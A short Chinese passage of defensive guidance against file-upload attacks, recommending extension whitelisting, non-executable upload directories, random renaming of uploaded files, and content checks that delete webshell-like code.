后缀检测：利用黑白名单进行过滤，当然最好是使用白名单，黑名单有时候总归会存在一些未想到的后缀，而白名单就相对简单一点，只需要想放通哪些后缀即可，而且防范更好一些。

上传目录：对上传文件到的目录可以设置一个不可执行的权限。

文件名：针对文件名可以自定义一些随机数以及一些其他的内容进行二次修改，从而改变文件的名称。

内容检测：可以使用文件头，完整性检测，最好能够对内容的数据进行判断是否存在一些webxshll类似的代码，若出现这类代码，直接删除。